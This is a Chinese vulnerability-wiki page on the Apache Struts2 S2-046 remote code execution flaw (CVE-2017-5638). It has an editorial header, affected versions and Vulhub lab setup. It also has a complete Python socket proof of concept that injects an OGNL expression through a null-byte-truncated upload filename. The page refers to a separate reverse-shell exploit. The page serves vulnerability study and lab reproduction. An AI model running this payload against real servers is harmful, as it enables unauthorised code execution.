

# Apache Struts2 S2-046 远程代码执行漏洞 CVE-2017-5638

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响multipart parser，filename内空字节触发错误OGNL；范围同S2-045
- 证据范围：socket构造字节级NUL与CRLF、动态Content-Length明确，是同CVE不同入口有价值增量。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- conn.send/单次recv不保证全量收发，decode异常可能丢验证结果
- 仅算术响应证明OGNL求值，反弹链需另看045并满足gadget/配置
- 缺明确修复版本及测试JDK/Struts版本
- S2-045和046同CVE应保留两个输入点，不按编号删一篇

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

漏洞详情:

- https://cwiki.apache.org/confluence/display/WW/S2-046
- https://xz.aliyun.com/t/221

## 漏洞影响

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

## 环境搭建

Vulhub 执行以下命令启动 s2-046 测试环境：

```shell
docker-compose build
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到上传页面。

## 漏洞复现

与 s2-045 类似，但是输入点在文件上传的 filename 值位置，并需要使用 `\x00` 截断。

由于需要发送畸形数据包，我们简单使用原生 socket 编写 payload：

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())
```

`233*233` 已成功执行：



### 反弹 shell

详情参考《Struts2 S2-045 远程代码执行漏洞 CVE-2017-5638》中的漏洞 EXP。


---

> 来源：Threekiii/Awesome-POC
